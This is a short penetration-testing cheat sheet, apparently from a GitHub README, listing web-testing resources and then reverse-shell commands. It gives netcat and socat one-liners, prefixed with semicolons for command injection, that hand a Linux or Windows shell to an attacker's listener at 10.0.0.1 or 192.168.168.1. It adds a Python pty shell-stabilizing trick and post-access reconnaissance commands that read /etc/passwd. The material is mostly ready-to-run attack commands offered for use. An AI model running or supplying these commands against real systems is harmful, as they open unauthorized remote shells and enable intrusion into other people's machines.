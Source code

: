 `DIRB` is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects.

### Web Applications

[OWASP Web Security Testing Guide](https://github.com/OWASP/wstg/tree/master/document/4-Web_Application_Security_Testing)

Exploit databases:

- (Exploit DB)[https://www.exploit-db.com/]
- (Rapid7 DB)[https://www.rapid7.com/db/]
- (Vulnerability Lab)[https://www.vulnerability-lab.com/]
### Reverse Shell

#### Netcat

Listener:
```shell
$ nc -lvnp 4242
```

Victim:
```shell
$ ;nc -e /bin/sh 10.0.0.1 4242
```

#### Socat

Lister:
```shell
$ socat -d -d TCP4-LISTEN:4443 STDOUT
```

Victim (Linux):
```shell
$ ;socat TCP4:10.0.0.1:4443 EXEC:/bin/bash
```

Victim (Windows):
```shell
$ ;socat TCP4:192.168.168.1:4443 EXEC:'cmd.exe',pipes
```

#### Stabilize Shell

You can stabilize the shell with the python module `pty`:
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

For more information checkout the following GitHub repo: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

If you gain access depending on the OS you can try the following commands to get more information:
>Linux
```shell
  $ whoami
  $ id
  $ ifconfig/ip addr
  $ uname -a                  # print system information
  $ ps -ef                    # -e = select all processes  -f = do full-format listing
  $ less /etc/passwd          # usernames with UID, GID, GECOS, home directory and login shell
  $ cut -d: -f1 /etc/passwd   # only usernames
  $ cat /etc/os-release       # Get inforamtion about the OS and the OS version
```
>Windows
```shell
  $ whoami
  $ ver
  $ ipconfig
```